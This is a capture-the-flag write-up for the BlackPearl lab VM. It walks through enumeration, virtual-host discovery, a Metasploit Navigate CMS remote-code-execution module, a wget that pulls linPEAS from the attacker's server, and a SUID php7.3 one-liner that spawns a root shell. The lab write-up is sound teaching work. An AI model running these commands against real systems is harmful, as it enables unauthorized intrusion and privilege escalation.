# Course Capstone - BlackPearl

This capstone challenge aims to exploit a course-provided Linux VM.

We will be attacking this vulnerable victim VM from a separate Kali Linux VM (mentioned later as 'attacker VM').

## VM Setup
The VM must first be imported into your hypervisor. I used VirtualBox. <br>
**Be sure that your attacker VM and victim VM have the same network adapter so they can reach one another.**

Start the victim VM, log in using provided credentials in **root password.txt** and grab its IP address using the command **ifconfig**.



Ensure your attacker VM can reach this machine by **pinging** it.

## Initial Enumeration
Run an Nmap scan against the victim VM: <br>
`nmap -T4 -p- -A [VICTIM VM IP]`

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-14 15:09 -0400
Nmap scan report for 10.0.2.15
Host is up (0.00017s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 66:38:14:50:ae:7d:ab:39:72:bf:41:9c:39:25:1a:0f (RSA)
|   256 a6:2e:77:71:c6:49:6f:d5:73:e9:22:7d:8b:1c:a9:c6 (ECDSA)
|_  256 89:0b:73:c1:53:c8:e1:88:5e:c3:16:de:d1:e5:26:0d (ED25519)
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.14.2
MAC Address: 08:00:27:AB:E2:7B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.17 ms 10.0.2.15

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.47 seconds
```

The scan doesn't provide us much information other than the web server running on port 80. If we navigate to the web page `http://[VICTIM IP]:80/` we see a 'Welcome to nginx!' page:



I then use [dirb](https://www.kali.org/tools/dirb/) to discover any sub-directories on the site:
```
dirb http://[VICTIM IP] 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Jul 14 15:10:56 2026
URL_BASE: http://10.0.2.15/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                       
---- Scanning URL: http://10.0.2.15/ ----
+ http://10.0.2.15/secret (CODE:200|SIZE:209)

-----------------
END_TIME: Tue Jul 14 15:10:57 2026
DOWNLOADED: 4612 - FOUND: 1
```

Navigating to the **/secret** directory in our web browser prompts a file download:



Now I began analyzing the file using the **file** and **cat** commands:



Now we see that we've fallen down a mini rabbit hole, but at least we're told that directory busting the site will not help.

After this, I thought to check the source code of the nginx page to see if any hints were left there.
```
 <!DOCTYPE html> 
 <html> 
 <head> 
 <title>Welcome to nginx!</title> 
 <style> body { width: 35em; margin: 0 auto; font-family: Tahoma, Verdana, Arial, sans-serif; } </style> 
 </head> 
 <body> 
 <h1>Welcome to nginx!</h1> 
 <p>If you see this page, the nginx web server is successfully installed and working. Further configuration is required.</p> 
 <p>For online documentation and support please refer to <a href="http://nginx.org/">nginx.org</a>.<br/> Commercial support is available at <a href="http://nginx.com/">nginx.com</a>.</p> 
 <p><em>Thank you for using nginx.</em></p> 
 </body> 
 <!-- Webmaster: alek@blackpearl.tcm --> 
 </html> 
```

Looking closely, we can see a webmaster address pointing to the **blackpearl.tcm** domain. I added that to my **/etc/hosts** file and continued investigating.

After opening a new browser window, we can navigate to the newly discovered domain: **http://blackpearl.tcm**:



I tried once again to try directory busting against this new site via dirb, but it didn't provide any results. However, using **ffuf** for this task gave us a new directory to inspect.

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt:FUZZ -u http://blackpearl.tcm/FUZZ
 
navigate                [Status: 301, Size: 185, Words: 6, Lines: 8, Duration: 2ms]
```



Now we can see the Navigate CMS v2.8 running here.

## Gaining a Foothold
I started by using **searchsploit** to find any possible exploits against Navigate CMS:



I chose to use the **Unauthenticated Remote Code Execution** exploit, `use exploit/multi/http/navigate_cms_rce`.

The module options need to be configured to work with our victim and attacker VMs:
```
RHOSTS -> [VICTIM VM IP]
LHOST -> [ATTACKER VM IP]
LPORT -> [LISTENING PORT]
VHOST -> blackpearl.tcm
```

Now we can **run** the exploit:



To get a shell on the victim VM, use the meterpreter command **shell**:



Now we have user-level access on this machine!

## Privilege Escalation
Since we don't currently have a fully-interactive shell on the victim VM, we need to figure out how to spawn a TTY shell.

I used [this site](https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell) to find multiple ways of going about this.

Starting from the top of the list, we can try to use python, but we must first confirm python is installed on the machine using **which python**. After that we can use python to spawn a shell.



We can start enumerating the machine for possible paths of privilege escalation. However, easy wins such as `history` and `sudo -l` didn't provide any findings.

We can use **linPEAS** to do the enumeration for us. Download the latest version of **linpeas.sh** onto your attacker VM from [here](https://github.com/peass-ng/PEASS-ng/releases).

Spin up a web server on your attacker VM to serve this file: `python -m http.server 80`

We can have the victim VM download the linPEAS script from our attacker with **wget**: `wget http://[ATTACKER VM IP]/path/to/linpeas.sh`



On the victim VM, change linPEAS file permissions `chmod u+x linpeas.sh` and execute the script `./linpeas.sh`.

Analyzing the output, we see several binaries with the SUID permission set - which allows them to be run with escalated privileges.

We can search [GTFOBins](https://gtfobins.org/) for ways to abuse these binaries and gain root privileges. 

We can abuse **php7.3** to spawn a root shell using the command `/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"`

Once spawned, we can confirm our access using commands like `whoami` or `id`:



There is a flag in **/root/flag.txt**:

```
Good job on this one.
Finding the domain name may have been a little guessy,
but the goal of this box is mainly to teach about Virtual Host Routing which is used in a lot of CTF.
```
